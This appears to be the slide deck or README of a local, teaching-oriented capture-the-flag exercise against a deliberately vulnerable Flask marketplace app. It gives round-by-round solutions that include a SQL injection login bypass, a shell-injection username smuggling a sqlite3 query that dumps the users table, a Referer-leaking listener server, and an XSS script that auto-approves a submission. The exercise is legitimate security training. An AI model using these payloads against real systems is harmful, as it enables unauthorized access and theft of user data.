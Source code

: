 ## Marketplace CTF



## What is it?
Find security holes in apps.

Multiple rounds getting harder each round.

Around 15 mins per round.

Followed by discussion.



## Don't worry
If you can't get the answers.

Learning and actually doing vulnerabilities is the point of this.



## To run
Set up a python virtualenv (eg: marketplace-ctf)

Install:

```bash
pip install Flask
pip install python-memcached
```



## Also
Optional:

```bash
brew install phantomjs
```



## Although...
All things are local and you could just open the db or the secret file or whatever... and read it.

That's not really the point is it?



## Do not
DOS

rm -rf

Be a meanie



## Round 1
My cool app requires a username and password to get in. It's really, really well protected (not).

Goal: **Log in**



## Round 1
SQL Injection

set password to:

```sql
' OR '1
```



## Round 2
The admin user keeps forgetting their password. So I added a hint to remind them.

Goal: **Log in**



## Round 2
Shell injection

set username to:

```bash
admin;sqlite3 the.db "SELECT * FROM users";#
```



## Round 3
We've written this cool way to review web apps. Add an app as some JSON and reviewers will access the review page. Reviewers will visit any URL given in the JSON.

Goal: **Access the review page**



## Round 3
Referer leaking and (almost) session fixation

upload an app format:

```json
{"url": "http://localhost:9999"}
```



## Round 3
Then run a server that looks like this:

```python
from flask import Flask, request
app = Flask(__name__)

@app.route('/')
def test():
    print request.headers
    return 'done'

if __name__ == '__main__':
    app.debug = True
    app.run(host='0.0.0.0', port=9999)
```

At:

```http://localhost:9999```



## Round 4
So we've closed down the whole in Round 3. And added a description field where you can add some HTML. Also actually added a working Approve and Deny button.

Goal: **Approve your app**



## Round 4
XSS

```json
{"url": "http://foo.com",
"description": "&lt;script>window.onload = function() {
    document.getElementsByTagName('input')[1].click();
}&lt;/script>"}
```

* Note: < should not be escaped, but markdown > reveal.js hates me.
